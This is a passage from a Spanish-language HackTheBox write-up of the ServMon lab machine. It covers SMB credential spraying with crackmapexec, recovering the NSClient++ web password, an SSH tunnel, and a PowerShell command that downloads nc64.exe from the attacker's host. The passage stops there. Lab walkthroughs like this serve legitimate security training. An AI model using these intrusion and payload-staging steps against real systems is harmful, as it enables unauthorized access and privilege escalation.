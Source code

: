 NO tenemos nada importante, asique usaré las credenciales para conectarme a la máquina y probaré a usarlas en el protocolo smb, pero claro, tenemos varias contraseñas y dos posibles usuarios...

Creo una lista con las contraseñas y otra con los dos usuarios.

![](/assets/images/HTB/Servmon-HackTheBox/crackmapexec2.png)


```crackmapexec
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```

Uso las credenciales para conectarme por ssh y obtengo la flag user.txt

# Escalada de Privilegios [#](privesc) {#privesc}

----

## NSClient++ [👽](#nsclient) {#nsclient}

Para escalar recordemos que tenemos una vulnerabilidad en el servidor NSClient++

Pero antes enumero el servidor web a través de la sesión ssh que tenemos activa busacando la carpeta de instalación del servidor.

Seguimos los pasos de la escalada.

> Obtener la contraseña de acceso del servidor.  

```ssh
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

> Sólo se puede acceder a través de localhost, de forma que debemos crear un túnel ssh para poder conectarnos.

```bash
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

Accedo, inicio sesión y sigo los pasos para escalar privilegios.

Los módulos ya estaban activados.

> Subir el archivo nc.exe a la ruta programdata de la máquina víctima

```win
powershell wget http://10.10.14.13:8000/nc64.exe -outfile nc64.exe
```
